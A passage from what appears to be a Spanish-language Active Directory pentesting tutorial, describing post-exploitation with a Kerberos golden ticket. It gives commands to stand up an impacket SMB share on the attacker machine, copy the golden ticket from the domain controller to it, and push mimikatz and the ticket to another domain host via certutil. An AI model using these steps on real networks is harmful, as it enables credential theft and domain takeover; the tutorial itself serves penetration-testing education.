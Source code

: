 Una vez creado el ticket realizaremos lo siguiente.

Lo primero es **pasarnos a nuestra máquina atacante el ticket** para posteriormente conectarnos a otra máquina del dominio y ejecutar este ticket con mimikat.exe de la siguiente manera.

Para pasar el ticket de una máquina a la otra utilizo **impacket-smbserver** desde mi máquina atacante creando un recurso compartido vinculado a mi ruta absoluta.

```bash
sudo impacket-smbserver filetransfer $(pwd) -smb2support
```

Y desde la máquina del DC ejecuto lo siguiente…

```bash
copy golden.ticket \\192.168.5.142\filetransfer\golden.ticket
```

![](/assets/images/articles/pentesting-windows2/Untitled%204.png)

Una vez ya tengo el golden.ticket me conecto a otra máquina del dominio, en este caso a la máquina PC-TIMOTI por ejemplo, y subo el mimikatz.exe y el ticket a través de un servidor de **python3** y **certutil**.

![](/assets/images/articles/pentesting-windows2/Untitled%205.png)

Si intentamos **enumerar los recursos compartidos del equipo AD-DC** (Domain Controller) recibiremos un **error**…

![](/assets/images/articles/pentesting-windows2/Untitled%206.png)
